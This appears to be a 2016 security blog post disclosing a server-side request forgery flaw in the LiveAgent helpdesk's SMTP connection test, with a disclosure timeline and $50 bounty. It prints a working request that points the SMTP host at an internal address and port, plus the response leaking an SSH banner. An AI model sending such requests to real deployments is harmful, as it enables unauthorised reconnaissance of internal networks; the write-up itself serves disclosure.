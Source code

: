 ```yaml
---
layout: post
title: "SSRF in LiveAgent"
thumbnail: periscope-240.jpg
date: 2016-10-05
---
```


The helpdesk software [LiveAgent](https://www.ladesk.com/) makes it possible to configure a SMTP server. Since it does not validate the SMTP server parameter and returns the response of the TCP connection, it is vulnerable to server side request forgery.

## Configuring the SMTP server

With LiveAgent it is possible to use any SMTP server as outgoing mail server. To configure this, you need to enter a host name, port, user name, and password. LiveAgent helps the user with debugging any issues by connecting to the server and showing the communication log:

![](/images/ladesk-communication-log-functionality.png)

## Server side request forgery

It is possible to connect to any host on any port and view the resulting communication. This introduces a security vulnerability if there are any hosts that the server can connect to, but the client cannot. For example, other hosts within the same network as the server may be accessible internally, but not from the Internet. Let's try it out by configuring a host on the internal network as SMTP server running on that port:

    D={
        "C": "La_Mail_MailAccountSettingsForm",
        "M": "testSmtpConnection",
        "fields": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
        ],
        "S": "4916cf1dffaf5641xxxxx5b01c878b8"
    }

This request configures host 192.168.101.1 and port 22 as the SMTP server. The response shows information about the SSH server running on that port:

    {
        "F": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
            ["communicationLog", "SMTP communication log: 
            2016-07-05-05-58-07-2479 Recv: SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2
            2016-07-05-05-58-07-2484 Sent: QUIT
            2016-07-05-05-58-07-2492 Recv: Protocol mismatch
            ", null, ""]
        ],
        "S": "N",
        "M": "Connecting to server failed"
    }

As you can see the application connected to 192.168.101.1 on port 22, and reveals that this host is running OpenSSH 6.7 on Debian.

## Information leakage only

This vulnerability makes it possible to read the response from any port, but we have no control over the data sent. We can use it to obtain information on the network, but we can not send any attacker-controlled data over the network. Nevertheless, this would be a powerful vulnerability if combined for example with a blind SSRF that can only be used to send data.

## Conclusion

Missing validation of the SMTP server parameter makes it possible to connect to hosts on the internal network and read their response on TCP connections.

## Timeline

* 5 July 2016, Sjoerd → LiveAgent: I found this vulnerability.
* 7 July 2016, Sjoerd → LiveAgent: Did you get my e-mail? Yes.
* 30 August 2016, Sjoerd → LiveAgent: Any update? We are working on it.
* 12 September 2016, LiveAgent → Sjoerd: Thank you. We will fix it. Provide your PayPal details to get a $50 bounty.
